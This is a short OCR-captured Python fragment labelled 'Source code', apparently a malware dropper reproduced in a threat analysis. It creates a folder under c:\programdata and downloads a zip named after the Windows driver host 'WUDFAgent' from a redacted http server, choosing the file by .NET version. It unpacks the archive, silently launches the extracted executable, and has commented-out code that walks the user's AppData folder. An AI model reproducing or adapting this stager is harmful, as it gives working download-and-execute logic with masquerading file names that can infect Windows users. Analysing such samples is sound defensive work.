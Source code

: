 def def_frames():
    try:
        if os.path.exists("C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319") is True:
            download_us("http://<REDACTED>/WUDFAgent_45.zip","c:\\programdata\\WUDFAgent_45.zip")
            define_me_replica("c:\\programdata\\WUDFAgent_45.zip")
            pass
        else:
            download_us("http://<REDACTED>/WUDFAgent_35.zip","c:\\programdata\\WUDFAgent_35.zip")
            define_me_replica("c:\\programdata\\WUDFAgent_35.zip")
            pass
    except Exception as e:
        pass
def patience_limit():
    try:
        if os.path.exists("C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319") is True:
            subprocess.Popen(["c:\\programdata\\WUDFHost\\WUDFAgent.exe"])
            pass
        else:
            subprocess.Popen(["c:\\programdata\\WUDFHost\\WUDFAgent.exe"])
            pass
    except Exception as e:
        pass
if __name__ == '__main__':
    try:
        create_dir("c:\programdata\WUDFHost")
        write_me("Starter\n")
        #list_folders = []
        #list_files = []
        #lines = ''
        username = os.environ['USERNAME']
        #for root, dirs,files in os.walk('c:\\users\\'+username+'\\appdata',topdown=False):
        #    for name in files:
        #        print(os.path.join(root,name))
        #        list_folders.append(os.path.join(root,name))
        #    for name in dirs:
        #        print(os.path.join(root,name))
        #        list_files.append(os.path.join(root,name))
        print("Directory Created")
        if '.py'  not in sys.argv[0]:
            #create_dir("c:\programdata\WUDFHost")
            print("Directory Created")
            